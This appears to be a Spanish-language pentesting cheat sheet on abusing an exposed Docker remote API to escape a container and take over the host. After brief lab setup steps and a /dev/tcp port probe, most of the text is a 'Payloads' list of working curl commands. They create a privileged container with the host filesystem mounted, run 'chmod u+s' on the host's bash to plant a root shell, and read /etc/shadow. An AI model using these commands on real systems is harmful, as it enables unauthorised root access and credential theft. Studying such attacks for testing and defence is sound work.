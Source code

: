 ----

## Abusando de la API de Docker 

Esto es algo que por default no suele estar activado, pero muchas veces puede ser que nos encontremos con esto. 
Para activar la API de Docker, nos dirigimos al directorio **/etc/docker** y creamos un archivo llamado **daemon.json** con el contenido: 

```json
{"hosts": ["tcp://0.0.0.0:2375", "unix:///var/run/docker.sock"]}
```

Agregamos el archivo **/etc/systemd/system/docker.service.d/override.conf** : 

```conf
[Service]
ExecStart= 
ExecStart=/usr/bin/dockerd
```

Y por ultimo recargamos el demonio  *systemctl daemon-reload* y restartiamos el servicio de docker *systemctl restart docker.service*. 

Una vez que tengamos la API corriendo ya podríamos probar esto de manera local. 

Cuando ganamos acceso a un contenedor y probamos diversas maneras de intentar escapar del contenedor, tal vez ninguna de las anteriores den resultado. Por lo que podríamos verificar si el puerto 2375 o 2376 esta abierto en lo que sería la maquina host.

Por ejemplo, si somos la máquina **172.17.0.2** intuimos que la máquina host es la **0.1** por lo que podríamos verificar si uno de los puertos anteriores está abierto.

```bash
echo '' > /dev/tcp/172.17.0.1/2375 

echo $? 
```

Si no vemos respuesta alguna en la consola y al ejecutar **echo $?** vemos que el código de estado es un 0, quiere decir que el puerto esta abierto, por lo que muy probablemente este corriendo docker. En este caso, podríamos realizar el proceso de enumeración y creación de contenedores haciendo uso de páginas como [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/2375-pentesting-docker). 

# Payloads: 

- **Listar containers desde consola con CURL usando la API:** `curl http://{ip}:2375/containers/json | jq`
- **Listar imágenes  desde consola con CURL usando la API:** `curl http://{ip}:2375/images/json | jq`
- **Listar containers desde consola con CURL usando la API:** `curl http://{ip}:2375/containers/json | jq`
- **Crear un container** `curl  -X POST -H "Content-Type: application/json" http://{ip}:2375/containers/create?name={container_name} -d '{"Image":"{image_name}", "Cmd":["/usr/bin/tail", "-f", "1234", "/dev/null"], "Binds": [ "/:/mnt/root" ], "Privileged": true}'` (Esto nos devolverá un ID_container)
- **Startear el container creado:** `curl -X POST -H "Content-Type: application/json" http://{ip}:2375/containers/{ID_container}/start?name={container_name}`
- **Crear ejecución de un comando:** `curl -X POST -H "Content-Type: application/json" http://{ip}:2375/containers/{ID_container}/exec -d '{ "AttachStdin": false, "AttachStdout": true, "AttachStderr": true, "Cmd": ["/bin/sh", "-c", "chmod u+s /mnt/root/bin/bash"]}'` (Esto nos devolverá un ID_command y en caso de que el comando que querramos ejecutar sea algo lo cual nos tenga que mostrar output como un cat al /etc/shadow deberíamos agregar un `--ouput -`)
- **Ejecutar el comando creado:** `curl -X POST -H "Content-Type: application/json" http://{ip}:2375/exec/{ID_command}/start -d '{}'` 
